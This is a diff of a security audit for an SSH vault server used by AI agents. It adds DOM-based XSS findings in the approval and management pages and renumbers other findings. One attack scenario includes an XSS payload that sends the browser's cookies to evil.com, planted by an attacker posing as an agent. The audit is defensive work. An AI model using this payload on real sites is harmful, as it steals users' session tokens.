

Before and after one commit to qsobad/ssh-vault-mcp, a Markdown page: SECURITY-AUDIT.md, 3 parts joined by grey strips. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/SECURITY-AUDIT.md
+++ b/SECURITY-AUDIT.md
@@ -18,11 +18,11 @@ The audit identified **critical architectural flaws** that fundamentally undermi
 | Severity | Count |
 |----------|-------|
 | CRITICAL | 3 |
-| HIGH | 10 |
-| MEDIUM | 18 |
-| LOW | 5 |
+| HIGH | 12 |
+| MEDIUM | 20 |
+| LOW | 6 |
 | INFORMATIONAL | 4 |
-| **TOTAL** | **40** |
+| **TOTAL** | **45** |
 
 ---
 
@@ -259,7 +259,46 @@ const policyResult = this.policyEngine.checkCommand(
 
 ---
 
-### HIGH-09: SSH Command Injection via Unvalidated Input
+### HIGH-09: DOM-Based XSS via Challenge Data in Approval Page
+
+**File:** `web/auth.html:284-293`
+**Domain:** Injection, Client-Side
+
+**Description:**
+The `displayChallengeInfo()` function renders challenge data from the server API directly into the DOM using `innerHTML` without HTML escaping. The `info.host`, `info.commands`, and `info.agent` values are injected as raw HTML.
+
+**Vulnerable Code:**
+```javascript
+let html = `<div class="host">Host: ${info.host}</div>`;
+if (info.commands && info.commands.length > 0) {
+  html += '<div class="command">' + info.commands.join('<br>') + '</div>';
+}
+actionDetail.innerHTML = html;
+```
+
+**Attack Scenario:**
+1. Attacker (as agent) calls `execute_command` with `command` set to `<img src=x onerror="fetch('https://evil.com/steal?c='+document.cookie)">`
+2. Policy engine denies the command, creating an approval challenge storing the malicious string
+3. Vault owner opens the approval URL, XSS payload executes in their browser
+4. Attacker steals session tokens or tricks user into approving malicious actions
+
+**Fix:** Use `textContent` instead of `innerHTML`, or implement `escapeHtml()` on all interpolated values.
+
+---
+
+### HIGH-10: DOM-Based XSS via Stored Vault Data in Management UI
+
+**File:** `web/manage.html:543-578`
+**Domain:** Injection, Client-Side
+
+**Description:**
+Multiple rendering functions (`renderHosts`, `renderAgents`, `renderSessions`) build HTML via string interpolation from vault data and inject via `innerHTML`. Host names, hostnames, usernames, tags, agent names, fingerprints, and allowed hosts/commands are all rendered unescaped. Additionally, `onclick="deleteHost('${h.id}')"` is vulnerable to attribute injection if `id` contains single quotes.
+
+**Fix:** Escape all user-controlled values; use `data-*` attributes with event listeners instead of inline handlers.
+
+---
+
+### HIGH-11: SSH Command Injection via Unvalidated Input
 
 **File:** `src/ssh/executor.ts`
 **Domain:** Injection
@@ -277,7 +316,7 @@ Commands passed to the SSH executor are forwarded directly to the remote SSH ser
 
 ---
 
-### HIGH-10: Policy Dangerous Pattern Detection Easily Bypassed
+### HIGH-12: Policy Dangerous Pattern Detection Easily Bypassed
 
 **File:** `src/policy/engine.ts`
 **Domain:** Authorization, Injection
````
Also changed, not shown: other parts of SECURITY-AUDIT.md (+52 -6 lines).
